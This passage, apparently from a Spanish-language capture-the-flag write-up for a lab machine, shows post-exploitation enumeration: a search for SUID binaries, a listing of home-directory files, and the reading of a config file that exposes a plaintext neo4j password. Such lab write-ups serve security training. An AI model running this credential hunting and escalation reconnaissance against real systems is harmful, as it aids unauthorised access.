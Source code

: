 Podemos buscar binarios `SUID` que permitan ejecutarlos como otro usuario (no necesariamente `root`) y así poder convertirnos en el propietario

~~~ bash
neo4j@cypher:/$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/umount
/usr/bin/fusermount3
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
~~~


## Interesting Files

Dentro del directorio `/home`, veremos un archivo `.yml` el cual tenemos permisos de lectura, debido a que se permite a otros usuarios inspeccionar el archivo

~~~ bash
neo4j@cypher:/$ find /home -type f 2>/dev/null | xargs ls -l
-rw-r--r-- 1 graphasm graphasm  220 Mar 31  2024 /home/graphasm/.bash_logout
-rw-r--r-- 1 graphasm graphasm 3771 Mar 31  2024 /home/graphasm/.bashrc
-rw-r--r-- 1 graphasm graphasm  156 Feb 14 12:35 /home/graphasm/bbot_preset.yml
-rw-r--r-- 1 graphasm graphasm  807 Mar 31  2024 /home/graphasm/.profile
-rw-r----- 1 root     graphasm   33 Jul 10 04:05 /home/graphasm/user.txt
~~~


## Credentials Leakage

Si vemos el contenido del archivo `bbot_preset.yml`, veremos unas credenciales para `neo4j`

~~~ bash
neo4j@cypher:/$ cat /home/graphasm/bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
~~~

